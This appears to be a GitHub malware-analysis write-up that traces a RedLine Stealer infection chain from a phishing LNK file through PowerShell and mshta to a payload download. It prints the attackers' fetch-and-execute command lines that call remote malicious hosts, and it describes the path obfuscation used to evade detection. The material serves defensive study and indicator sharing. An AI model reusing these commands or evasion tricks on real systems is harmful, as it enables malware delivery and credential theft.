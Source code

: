 # RedLine Stealer dropper analysis using AnyRun Sandbox

## Overview of RedLine Stealer :

- RedLine Stealer, an infostealer malware first identified in March 2020, specializes in extracting valuable information and assets from compromised systems, primarily targeting end users. Commonly distributed through compromised software downloads, phishing attempts, and drive-by downloads, RedLine Stealer focuses on pilfering insecure passwords and cryptocurrency wallets. Beyond these targets, it possesses the capability to harvest an array of system information, including IP addresses, usernames, keyboard layouts, and installed security solutions. Moreover, it can serve as a vehicle for distributing additional malware, such as ransomware, exacerbating the potential damage.
 
- More information on the RedLine Stealer and its trends can be found in ANY.RUN’s Malware Trends. RedLine is top trending malware in 2023.

- https://any.run/malware-trends/redline

![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/da455b4c-dd0a-46ec-a629-62b92140dbef)

## RedLine Infection Vectors :

- RedLine's versatility is evident in its diverse delivery mechanisms, It is used in multiple smaller campaigns by individuals who have purchased the malware from the underground malware forums. Due to this, there are a wide range of known infection vectors. Only few of them are stated below:
 
  - Trojanizing as popular services like Telegram, Signal, or Discord to create seemingly legitimate installers.
  - Email phishing campaigns aimed at luring victims into downloading the malware.
  -	Exploitation of Google Ads while hosting Trojanized or fake websites.
  -	Social engineering tactics targeting digital artists using Non-Fungible Tokens (NFTs).
  -	Distribution through malware loaders, expanding its reach across various compromised systems.

## Sample Collection and Preparation for Analysis :

### AnyRun :

> https://app.any.run/tasks/5a51d459-6caa-47dd-9b27-715ca2ec92bb/             

> https://app.any.run/tasks/6212356e-6b48-4e80-b0fc-8c3dd5111e1d/

### MalwareBazaar

> https://bazaar.abuse.ch/sample/3086ac8861aaccdf3dc45f3b1380b6cd70169c7d9fc16f098f5a1d08736fed61/

## Analysis :

- The infection chain unfolds as follows:
 
  ***`LNK -> PS -> mshta.exe (URL1) -> PS -> cmd.exe -> PS (obfuscate + b64 + AES-decrypt) -> URL2 (exe)`***
 
- The initial payload is distributed via a phishing email containing a ZIP file. Once the ZIP file is extracted, you'll come across an LNK file that appears as a PDF symbol.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/659ea9a9-24b8-4432-b310-e7ede57cf94a)

- Following the execution of the LNK file, it utilizes PowerShell to initiate the execution of mshta.exe. 

- Mshta.exe is a Windows-native binary designed to execute Microsoft HTML Application (HTA) files. As its full name implies, Mshta can execute Windows Script Host code (VBScript and JScript) embedded within HTML in a network proxy-aware fashion.

- To avoid detection, attackers are using the path (\W*\2\msh*e) instead of the standard path - C:\Windows\System32\mshta.exe.

  **Command Line -** ***`"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" \W*\\\*2\\\msh*e ('http'+'://thanhancompany.com/ta/line'+'.hta')`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/d2256dce-b51b-4bfd-94b0-aa409bafb609)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/faa42324-2cd6-4106-a125-0ef89810469d)

- The mshta.exe establishes a connection with the URL specified in the LNK file and execute the hta file.
 
  **Command Line -** ***`"C:\Windows\System32\mshta.exe" http[://]thanhancompany[.]com[/]ta[/]line[.]hta`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/4933084e-1cfa-4cb4-af7b-f3018f39fb01)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/b2d33313-9731-4fd6-b750-4c146b340612)

- The HTA script uses the VBScript ‘chr’ function to obfuscate by translating ASCII codes into characters. VBScript often employs the 'chr' function to obfuscate its code, where 'chr' converts Ascii codes to characters e.g. Chr(65) will return 'A'. 

-	In this script it uses simple subtraction before converting the character to Ascii using chr.

  **Reference Link -** https://isvbscriptdead.com/vbs-obfuscator/
 
-	Two methods can deobfuscate this script:
 
      1. Using CyberChef.
 
      2. Save the HTA content as a new file. Replace instances of 'Execute' with 'Wscript.Echo' within the resulting VBS file. Running the modified file using cscript.exe reveals the deobfuscated script.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/0957627c-5657-411d-9db2-9058a56f6ef4)

-	In the AnyRun sandbox you will get you the deobfuscated script from the following Process 3008.

-	This deobfuscated hta script contains 2nd stage obfuscated PowerShell script which utilize AES decryption along with Gzip decompress and then execute using cmd.exe.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/336ba7ba-1ee3-40bf-b4f2-75b057854d95)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/a3591110-db01-4956-8c4c-29df047907a4)


-	We will dump 2nd stage PowerShell script simply writing Write-Host at the bottom of the script and execute it.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/70ec5fcf-f104-4422-a71e-027cfe7afca9)

-	2nd stage PowerShell first opens Blank pdf and after then connects to the below URL and download ReadiLine Stealer and execute it.

   **URL –** ***`https[://]hiqsolution[.]com`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/2e102262-fb99-4f81-b5d3-6986cb33dadc)

-	Below snap shows the blank pdf opened after 2nd stage execution.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/d71d80a6-ba56-49ef-8ec3-ea3197f89e8b)


## IOC’s :

AnyRun Report (https://any.run/report/1bf287baf71f2a0872005e73399685df6b3a2b27cb2f27511deb4bdf566fbe67/5a51d459-6caa-47dd-9b27-715ca2ec92bb?_gl=1*cmzv32*_gcl_au*NjY1NzUzNzkuMTY5NzIxMzg3MA..*_ga*MTk4MTUxNzQ0LjE2NzQ4MzE3MjM.*_ga_53KB74YDZR*MTcwMzgzNjIwNy4zNy4xLjE3MDM4Mzg2MTYuMC4wLjA)


## References :

- CyberChef Receipes : https://github.com/Securityinbits/malware-analysis/blob/main/analysis/redline_stealer_aug_2023.md
  
